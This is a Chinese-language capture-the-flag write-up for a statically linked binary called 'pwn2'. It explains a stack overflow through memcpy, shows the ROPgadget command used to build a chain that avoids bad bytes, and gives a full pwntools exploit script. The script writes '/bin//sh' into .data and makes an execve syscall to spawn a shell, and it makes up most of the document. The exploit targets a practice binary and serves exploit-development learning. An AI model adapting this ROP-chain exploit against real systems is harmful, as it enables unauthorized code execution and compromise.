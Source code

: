 这题刚开始看到malloc以为是堆溢出，但问题其实还是在底下memcpy那个地方，仍然是栈溢出
然后有点懵逼，一方面输入是数字，不是字符串，就需要一些转化。
酱紫就需要多次的输入，要把pattern create出来的字符串切得碎碎的放进去（啊不对是输入别的标志算偏移
另一方面感觉题目的逻辑有点问题= =数字都还没输入完，输个5就能memcpy并退出了，有点蠢

然后调试了下终于能覆盖eip了，输入15次数字，第16次输5保存的话刚好能正常退出，再多一次会覆盖地址
却对跳到哪里有点迷惘。。scanf是有的，但没有system函数。。

然后据说这题是静态编译过的~所以这时候就可以祭出ROPgadgets了，命令是
ROPgadget --ropchain --badbytes 0A --binary pwn2
注意其中的badbytes。。

另外还get了一个新知识，就是free(0)是不会出错的，所以需要给它赋参数的时候0就可以~

========================================================
from pwn import *
p=process('./pwn2')
p.recv()
r=raw_input()
p.sendline('160')#how many times of calculation

def input4bytes(number):
    p.recv()
    p.sendline('1')#choose an action
    p.recv()
    p.sendline('0')
    p.recv()
    p.sendline(str(number))

for i in xrange(16):
    input4bytes(0)



input4bytes(0x0806ed30) # pop edx ; pop ecx ; pop ebx ; ret
input4bytes(0x080ea060) # @ .data
input4bytes(0x41414141) # padding
input4bytes(0x41414141) # padding
input4bytes(0x080bb406) # pop eax ; ret
input4bytes(0x6e69622f)
input4bytes(0x08097416) # mov dword ptr [edx], eax ; pop ebx ; ret
input4bytes(0x41414141) # padding
input4bytes(0x0806ed30) # pop edx ; pop ecx ; pop ebx ; ret
input4bytes(0x080ea064) # @ .data + 4
input4bytes(0x41414141) # padding
input4bytes(0x41414141) # padding
input4bytes(0x080bb406) # pop eax ; ret
input4bytes(0x68732f2f)
input4bytes(0x08097416) # mov dword ptr [edx], eax ; pop ebx ; ret
input4bytes(0x41414141) # padding
input4bytes(0x0806ed30) # pop edx ; pop ecx ; pop ebx ; ret
input4bytes(0x080ea068) # @ .data + 8
input4bytes(0x41414141) # padding
input4bytes(0x41414141) # padding
input4bytes(0x08054730) # xor eax, eax ; ret
input4bytes(0x08097416) # mov dword ptr [edx], eax ; pop ebx ; ret
input4bytes(0x41414141) # padding
input4bytes(0x080481c9) # pop ebx ; ret
input4bytes(0x080ea060) # @ .data
input4bytes(0x0806ed31) # pop ecx ; pop ebx ; ret
input4bytes(0x080ea068) # @ .data + 8
input4bytes(0x080ea060) # padding without overwrite ebx
input4bytes(0x0806ed30) # pop edx ; pop ecx ; pop ebx ; ret
input4bytes(0x080ea068) # @ .data + 8
input4bytes(0x080ea068) # padding without overwrite ecx
input4bytes(0x080ea060) # padding without overwrite ebx
input4bytes(0x08054730) # xor eax, eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x0807b75f) # inc eax ; ret
input4bytes(0x08049781) # int 0x80

p.recv()
p.sendline('5')
p.interactive()
========================================================
